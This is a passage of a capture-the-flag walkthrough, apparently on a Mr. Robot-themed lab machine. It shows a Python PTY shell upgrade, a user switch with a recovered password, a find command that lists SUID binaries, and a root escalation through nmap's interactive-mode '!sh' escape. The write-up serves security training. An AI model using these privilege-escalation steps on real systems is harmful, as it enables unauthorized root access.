 Since trying to run `su` directly threw an error saying that it needs to be run from inside a terminal, I used this Python snippet to initialize a terminal:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956[...]
```

And there's the second key!

Note: Another common script to get a terminal prompt is `/usr/bin/script -qc /bin/bash /dev/null`. However, in this instance, it didn't allow me to properly input the password.

Given the filename convention used so far, I decided to search for a file named `key-3-of-3.txt`. I was not able to find it under the user `robot`. Then, I searched for any processes that run as root, to find a way to escalate privileges:

```bash
find / -perm +6000 2>/dev/null | grep '/bin/'
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
```

After searching for potential privilege escalations using any of these binaries, I found out that it's well documented that running nmap in interactive mode is particularly useful for this purpose:

```bash
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 (  )
Welcome to Interactive Mode -- press h  for help
nmap> ls /root
ls /root
Unknown command (ls) -- press h  for help
nmap> !sh
!sh
# ls /root
ls /root
firstboot_done  key-3-of-3.txt
# cat /root/key-3-of-3.txt
```